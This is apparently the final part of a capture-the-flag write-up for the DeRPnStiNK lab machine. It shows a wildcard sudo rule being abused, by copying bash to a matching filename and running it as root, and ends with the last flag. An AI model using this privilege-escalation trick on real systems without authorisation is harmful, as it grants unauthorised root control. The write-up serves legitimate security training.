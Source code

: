 ```
mrderp@DeRPnStiNK:~$ cat /support/troubleshooting.txt
*******************************************************************
On one particular machine I often need to run sudo commands every now and then. I am fine with entering password on sudo in most of the cases.

However i dont want to specify each command to allow

How can I exclude these commands from password protection to sudo?

********************************************************************



********************************************************************
Thank you for contacting the Client Support team. This message is to confirm that we have resolved and closed your ticket.

Please contact the Client Support team at https://pastebin.com/RzK9WfGw if you have any further questions or issues.

Thank you for using our product.

********************************************************************
```

Running a **sudo -l** gives us the sudo commands that mrderp can run:

```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

All I had to do at this point was to create a binaries directory, copy the bash executable to something with derpy in the name and run it as sudo:

```
mrderp@DeRPnStiNK:~/binaries$ cp -p /bin/bash derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh
[sudo] password for mrderp:
root@DeRPnStiNK:~/binaries#
```

Only at the end I realized I should have also collected flags, but I was too lazy to return to that, so leaving only the last flag here:

```
root@DeRPnStiNK:/root# cat Desktop/flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo
```

```
______________________________________
/ You need more time; and you probably \
\ always will.                         /
--------------------------------------
       \   ^__^
        \  (oo)\_______
           (__)\       )\/\
               ||----w |
               ||     ||
```

